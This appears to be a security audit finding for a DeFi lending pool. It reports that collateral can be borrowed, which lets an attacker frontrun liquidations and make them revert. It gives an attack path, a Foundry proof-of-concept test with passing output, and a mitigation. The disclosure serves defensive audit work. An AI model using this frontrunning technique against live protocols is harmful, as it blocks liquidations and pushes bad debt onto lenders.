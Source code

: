 Joyous Cedar Tortoise

High

# An attacker can sandwich liquidations by borrowing the collateral to ensure the liquidation reverts

### Summary

The protocol allows tokens supplied as collateral to be borrowed.

This means that if the collateral funds are borrowed, it is not possible to liquidate that position.

### Root Cause

_No response_

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. Position becomes liquidatable
2. Liquidator sends a tx to repay the debt and take the collateral ([executeLiquidationCall](https://github.com/sherlock-audit/2024-06-new-scope/blob/c8300e73f4d751796daad3dadbae4d11072b3d79/zerolend-one/contracts/core/pool/logic/LiquidationLogic.sol#L94))
3. Attacker frontruns (2) by borrowing all the collateral
4. (2) goes through and reverts since the collateral to collect has been borrowed completely
5. Attacker repays the borrowed amount in the same block, therefore pays no interest

### Impact

Time sensitive liquidations revert

Significantly increased risk of bad debt accruing

### PoC

Add the following test to `PoolLiquidationTests.t.sol`

```solidity
function test__FrontrunLiquidationByBorrowingToMakeItRevert() external {
    // Setup users
    address liquidator = address(12345);
    _mintAndApprove(alice, tokenA, 100e18, address(pool));
    _mintAndApprove(bob, tokenB, 10000e18, address(pool));
    _mintAndApprove(liquidator, tokenB, 10000e18, address(pool));

    // Alice supplies 100e18 tokenA
    vm.startPrank(alice);
    pool.supplySimple(address(tokenA), alice, 100e18, 0);
    vm.stopPrank();

    // Bob supplies 1000e18 tokenB
    vm.startPrank(bob);
    pool.supplySimple(address(tokenB), bob, 1000e18, 0);
    vm.stopPrank();

    // Alice borrows 50e17 tokenB
    vm.startPrank(alice);
    pool.borrowSimple(address(tokenB), alice, 50e17, 0);
    vm.stopPrank();

    // tokenA price dumps making alice's position liquidatable
    oracleA.updateAnswer(5e3);

    // Liquidator sends a Tx to liqudiate alice's _boundHealthyPosition

    // Bob sees the liquidator's Tx in the mempool and frontruns it by
    // borrowing all of alice's collateral
    vm.startPrank(bob);
    pool.borrowSimple(address(tokenA), alice, 100e18, 0);

    // The liqudiator's Tx will revert
    vm.startPrank(liquidator);
    vm.expectRevert();
    pool.liquidateSimple(address(tokenA), address(tokenB), pos, 20e17);
  }

```

**Console output:**

```bash
Ran 1 test for test/forge/core/pool/PoolLiquidationTests.t.sol:PoolLiquidationTest
[PASS] test__FrontrunLiquidationByBorrowingToMakeItRevert() (gas: 987753)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 2.99ms (895.60µs CPU time)

Ran 1 test suite in 4.93ms (2.99ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)

```

### Mitigation

Do not allow tokens supplied as collateral to be borrowed, since these must be liquidatable. 